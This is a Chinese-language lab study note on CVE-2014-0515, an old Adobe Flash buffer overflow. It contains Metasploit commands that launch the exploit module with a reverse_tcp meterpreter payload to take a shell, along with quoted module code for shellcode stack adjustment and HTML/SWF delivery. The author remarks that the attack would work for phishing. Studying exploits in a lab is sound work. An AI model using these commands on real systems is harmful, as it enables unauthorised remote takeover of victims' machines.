# CVE 2014-0515 渣渣学习笔记

## 主要报告
[CVE 通用漏洞与披露](http://www.scap.org.cn/CVE-2014-0515.html)
[CVE 官网](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0515)
[类似漏洞概况](http://www.cvedetails.com/cve/CVE-2014-0515/)

## 概况
Buffer overflow in Adobe Flash Player before 11.7.700.279 and 11.8.x through 13.0.x before 13.0.0.206 on Windows and OS X, and before 11.2.202.356 on Linux, allows remote attackers to execute arbitrary code via unspecified vectors, as exploited in the wild in April 2014.<br>


## 演示验证
[Japanese youtube](https://www.youtube.com/watch?v=mNApA4ubsbo)
https://www.rapid7.com/db/modules/exploit/multi/browser/adobe_flash_pixel_bender_bof

### shell
一番折腾之后选择了win7 sp1 32bit进行msf测试。<br>
kali linux进行测试验证，插件是flash_player_activex_13.0.0.182<br>
```
msf > use exploit/multi/browser/adobe_flash_pixel_bender_bof
msf exploit(adobe_flash_pixel_bender_bof) > set SRVHOST 192.168.50.132
msf exploit(adobe_flash_pixel_bender_bof) > set LHOST 192.168.50.132
msf exploit(adobe_flash_pixel_bender_bof) > set SRVPORT 80
msf exploit(adobe_flash_pixel_bender_bof) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_pixel_bender_bof) > set SRVPATH /
msf exploit(adobe_flash_pixel_bender_bof) > exploit
```
其中192.168.50.132是本本机端口<br>
最后 生成 http://192.168.50.132:8080/S40YtnhUGivc9<br>
ie中输入这个网站，sessions -i 1 拿shell<br>
就渗透进去了(用来钓鱼那真是。。。)<br>

## 向大佬询问方法
看一些已经有的方法，flash过于复杂，先看一些典型的进行调试分析，没有捷径，只能慢慢来

## 找资料&分析poc
poc采用ruby语言
### 报告阅读(太概括了)
- [heap spraying](https://securelist.com/blog/incidents/59399/new-flash-player-0-day-cve-2014-0515-used-in-watering-hole-attacks/
    提到 movie.swf 和 include.swf 这两个exp样本，两个是在shellcode方面不同，其他类似<br>
    - 准备
        使用heap spray(简单的来说就是在堆栈上覆盖一大片的空指令如NOP)<br>
    - exploit
        1. 采用VirtualProtect改写段的读写权限<br>
        2. VirtualAlloc分配空间并把第二段shellcode拷贝到里面<br>
        3. 是搜索库函数，但是延迟大<br>
           另外一种是到了这里就查找flash10p.ocx的base address，但是需要Adobe Flash Player ActiveX and Cisco MPE才行，但是文中交待并没有明确的payload来分析，因为没有进行重放(为啥)
    - summary<br>
        We detect such exploits by AEP technology as PDM:Exploit.Win32.Generic and by heuristics as HEUR:Exploit.SWF.CVE-2014-0515.gen
    - got<br>
        无

- https://vuldb.com/?id.13085 none
- [较为详细的概括](http://cwe.mitre.org/data/definitions/119.html)

## 摸索

### 抓包
这个真是。。。抓了一个晚上包，找到swf，然后各种工具配置分析格式。。。。

### 分析msf
#### 初始化
```
'Space' => 2000,
'DisableNops' => true,
'PrependEncoder' => stack_adjust

def stack_adjust
    adjust = "\x64\xa1\x18\x00\x00\x00"  # mov eax, fs:[0x18] # get teb
    adjust << "\x83\xC0\x08"             # add eax, byte 8 # get pointer to stacklimit
    adjust << "\x8b\x20"                 # mov esp, [eax] # put esp at stacklimit
    adjust << "\x81\xC4\x30\xF8\xFF\xFF" # add esp, -2000 # plus a little offset
    adjust
end
```
这里主要配置了payload的一些格式，去除了NOP指令，而采用 stack_adjust 来填充<br>
>Thread Environment Block (TEB)<br>
>由TEB结构/*0x008*/ PVOID ImageBaseAddress;<br>

接下来on_request_exploit 就是主要的了，等待访问网页，然后发送已经构造好的.swf和html<br>
html主要用来触发网页请求获取swf。<br>

### 构造html和发生swf
```
def exploit_template(cli, target_info)
    swf_random = "#{rand_text_alpha(4 + rand(3))}.swf"
    flash_payload = ""
    get_payload(cli,target_info).unpack("V*").each do |i|
      flash_payload << "0x#{i.to_s(16)},"
    end
    flash_payload.gsub!(/,$/, "")


    html_template = %Q|<html>
    <body>
    <object classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab" width="1" height="1" />
    <param name="movie" value="<%=swf_random%>" />
    <param name="allowScriptAccess" value="always" />
    <param name="FlashVars" value="sh=<%=flash_payload%>" />
    <param name="Play" value="true" />
    </object>
    </body>
    </html>
    |
    return html_template, binding()
end
```
这个就是构造html
```
if request.uri =~ /\.swf$/
    print_status("Sending SWF...")
    send_response(cli, @swf, {'Content-Type'=>'application/x-shockwave-flash', 'Pragma' => 'no-cache'})
    return
end
```
这个就是发生构造的swf payload<br>
其中也看出了利用的swf是在/usr/share/metasploit-framework/data/exploits/之中(kali linux中)<br>
----day2------
漏洞依旧没有进展，不过学习了很多，下一步仔细分析swf文件，这个msf shellcode里感觉好像找不到明显的漏洞点..

## Reference
  http://cvedetails.com/cve/2014-0515/
  http://www.securityfocus.com/bid/67092
  http://helpx.adobe.com/security/products/flash-player/apsb14-13.html
  http://www.securelist.com/en/blog/8212/New_Flash_Player_0_day_CVE_2014_0515_used_in_watering_hole_attacks
  http://blog.trendmicro.com/trendlabs-security-intelligence/analyzing-cve-2014-0515-the-recent-flash-zero-day/




